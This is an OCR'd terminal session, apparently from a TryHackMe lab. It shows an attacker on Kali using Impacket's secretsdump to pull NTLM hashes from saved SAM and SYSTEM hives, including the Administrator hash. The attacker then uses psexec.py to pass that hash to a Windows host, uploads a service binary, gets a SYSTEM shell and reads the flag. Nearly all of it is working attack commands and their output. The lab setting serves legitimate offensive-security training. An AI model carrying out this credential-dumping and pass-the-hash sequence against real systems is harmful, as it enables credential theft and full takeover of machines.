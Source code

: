 ```
                                                                          
┌──(kali㉿kali)-[~/Downloads/share]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
THMBackup:1008:aad3b435b51404eeaad3b435b51404ee:6c252027fb2022f5051e854e08023537:::
THMTakeOwnership:1009:aad3b435b51404eeaad3b435b51404ee:0af9b65477395b680b822e0b2c45b93b:::
[*] Cleaning up... 
                                                                          
┌──(kali㉿kali)-[~/Downloads/share]
└─$ locate psexec.py     
/home/kali/Downloads/zerologon_learning/impacketEnv/bin/psexec.py
/usr/share/doc/python3-impacket/examples/psexec.py
/usr/share/powershell-empire/empire/server/modules/powershell/lateral_movement/invoke_psexec.py
/usr/share/set/src/fasttrack/psexec.py
                                                                          
┌──(kali㉿kali)-[~/Downloads/share]
└─$ python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.12.124
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.10.12.124.....
[*] Found writable share ADMIN$
[*] Uploading file uPvoHAWy.exe
[*] Opening SVCManager on 10.10.12.124.....
[*] Creating service riWZ on 10.10.12.124.....
[*] Starting service riWZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> more C:\Users\Administrator\flag.txt
 
Cannot access file C:\Users\Administrator\flag.txt
C:\Windows\system32> more C:\Users\Administrator\Desktop\flag.txt
THM{SEFLAGPRIVILEGE}



```
